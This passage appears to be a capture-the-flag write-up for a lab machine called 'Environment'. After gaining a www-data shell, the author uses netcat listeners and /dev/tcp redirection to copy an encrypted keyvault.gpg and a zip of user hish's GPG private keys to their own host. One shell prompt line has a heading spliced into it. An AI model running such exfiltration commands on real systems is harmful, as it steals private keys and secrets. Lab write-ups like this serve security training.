 ```bash
-rw-r--r-- 1 hish hish  220 Jan  6  2025 .bash_logout
-rw-r--r-- 1 hish hish 3526 Jan 12  2025 .bashrc
drwxr-xr-x 4 hish hish 4096 Sep 20 01:40 .gnupg
drwxr-xr-x 3 hish hish 4096 Jan  6  2025 .local
-rw-r--r-- 1 hish hish  807 Jan  6  2025 .profile
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 backup
-rw-r--r-- 1 root hish   33 Sep 19 20:02 user.txt
```

It contains a gpg encryption file:

```bash
www-data@environment:/home/hish/backup$ ls -la
total 12
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 .
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 ..
-rw-r--r-- 1 hish hish  430 Sep 20 01:41 keyvault.gpg
```


But I can't decrypt it as I'm not hish and I don't have permissions to create a .gnupg directory as www-data:

```bash
www-data@environment:/home/hish/.gnupg$ gpg --decrypt keyvault.gpg
gpg: Fatal: can't create directory '/var/www/.gnupg': Permission denied
```

However, I can transfer the files inside .gnupg folder to my machine and try to decrypt it:

### Keyvault transfer

- My machine:
```bash
❯ nc -lvnp 443 > keyvault.gpg
listening on [any] 443 ...
```
- "Environment" machine:
```bash
www-data@environment:/home/hish/backup$ cat keyvault.gpg > /dev/tcp/10.10.14.175/443
```

### GPG home files transfer

- My machine:
```bash
❯ mkdir gpg-files
❯ cd gpg-files
❯ nc -lvnp 443 > gpg-files.zip
listening on [any] 443 ...
```
- "Environment machine":
```bash
www-data@environment:/home/hish/.gnupg$ zip -r /tmp/gpg-files.zip .
  adding: private-keys-v1.d/ (stored 0%)
  adding: private-keys-v1.d/C2DF4CF8B7B94F1EEC662473E275A0E483A95D24.key (deflated 41%)
  adding: private-keys-v1.d/3B966A35D4A711F02F64B80E464133B0F0DBCB04.key (deflated 41%)
  adding: trustdb.gpg (deflated 93%)
  adding: pubring.kbx (deflated 6%)
  adding: openpgp-revocs.d/ (stored 0%)
  adding: openpgp-revocs.d/F45830DFB638E66CD8B752A012F42AE5117FFD8E.rev (deflated 37%)
  adding: pubring.kbx~ (deflated 25%)
  adding: random_seed (stored 0%)
www-data@environment:/home/hi### Decryptionsh/.gnupg$ cat /tmp/gpg-files.zip > /dev/tcp/10.10.14.175/443
www-data@environment:/home/hish/.gnupg$ rm /tmp/gpg-files.zip
```


```bash
```